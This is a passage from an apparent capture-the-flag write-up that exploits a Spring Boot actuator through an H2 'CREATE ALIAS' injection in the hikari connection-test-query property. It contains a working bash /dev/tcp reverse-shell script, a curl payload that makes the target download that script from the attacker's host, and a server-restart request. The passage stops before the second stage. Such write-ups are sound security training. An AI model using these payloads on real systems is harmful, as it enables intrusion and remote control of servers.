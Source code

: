 ```bash
sudo tcpdump -i tun0 icmp
```

And we get a ping from the server.

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Ok, so we managed to execute code, time to spawn a reverse shell but before that there is one thing we need to know. Our code is using java's [`Runtime.exec()`](https://docs.oracle.com/javase/8/docs/api/java/lang/Runtime.html#exec-java.lang.String-java.lang.String:A-java.io.File-) so we either stage our payload or use:

```
bash -c "<payload>"
```

### Initial Access

#### Stage 1 of Payload

Let's go with staging for simplicity; first we crate a script to create the reverse shell;

`reverse.sh`:

```
bash -c "bash -i >& /dev/tcp/<attackerip>/9000 0>&1"
```

and host it on localhost then send the first stage of the payload;

```
python3 -m http.server 80
```

{% code overflow="wrap" %}
```bash
#download reverse.sh using wget and put it in /tmp/rev.sh
curl -X POST -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'wget http://10.18.88.214/rev.sh -O /tmp/rev.sh\');"}' "https://spring.thm/actuator/env" -k

# restart server.
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://spring.thm/actuator/restart" -k

```
{% endcode %}

